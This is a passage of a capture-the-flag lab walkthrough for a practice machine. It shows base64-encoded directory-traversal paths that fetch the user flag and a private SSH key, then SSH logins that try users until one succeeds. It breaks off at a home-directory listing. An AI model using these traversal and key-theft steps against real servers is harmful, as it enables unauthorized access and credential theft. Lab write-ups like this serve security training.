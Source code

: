 
Looks like we get a private site with some tv show seasons to select from. Selecting any season brings us to a page with some avi files that can be downloaded. Looking at the URLS we see that for the season list we have `https://10.10.10.131/?path=SEASON-1` and for a file we have something like `https://10.10.10.131/file/U0VBU09OLTEvMDEuYXZp`

The path qouery parameter is suspicious as is the part after the file/. Starting with the path we can see that we do have a query manipulation vulnerability that leads to directory traversal.

![251789368.png]({{site.baseurl}}/Images/LaCasaDePapel/251789368.png)


But this will not let us access the contents of a file. We see that the path variable is used in the same `scandir()` function we were using earlier:

![251854905.png]({{site.baseurl}}/Images/LaCasaDePapel/251854905.png)


Time to look at the file. As we commonly see with CTFs and web applications a lot of the time text is encoded with base64 to ensure that the message is not misinterpreted weirdly if it has any special characters.  To confirm this we run a basic test:
```
root@kali: echo -n 'U0VBU09OLTEvMDEuYXZp' | base64 -d
SEASON-1/01.avi
```
That is exactly what we were hoping for. the file path is being base64 encoded. We know where the user.txt is so lets see if we can read it.
```
root@kali: echo -n '../user.txt' | base64            
Li4vdXNlci50eHQ=
```
add that to the URL and see if we are prompted to download the user.txt file:

![251789382.png]({{site.baseurl}}/Images/LaCasaDePapel/251789382.png)


Nice! But we need a better way into the box. Using our directory traversal exploit we see in the ../.ssh directory that we no only have an authorized_keys file, but also have the private and public keys. Time to download the private key and ssh in as the berlin user.
```
root@kali: echo -n '../.ssh/id_rsa' | base64
Li4vLnNzaC9pZF9yc2E=
[Go to firefox and download the file]
root@kali: chmod 600 id_rsa
root@kali: ssh -i id_rsa berlin@10.10.10.131
berlin@10.10.10.131's password:
```
Hmmm… looks like it might not be the berlin users ssh key, so we try them all and eventually get in with the professor user.
```
root@kali: ssh -i id_rsa professor@10.10.10.131

 _             ____                  ____         ____                  _ 
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$ 
```
We see in the professors home folder that there is some memcached files:
```
lacasadepapel [~]$ ls -la
total 24
drwxr-sr-x    4 professo professo      4096 Mar  6 20:56 .
drwxr-xr-x    7 root     root          4096 Feb 16 18:06 ..
lrwxrwxrwx    1 root     professo         9 Nov  6  2018 .ash_history -> /dev/null
```
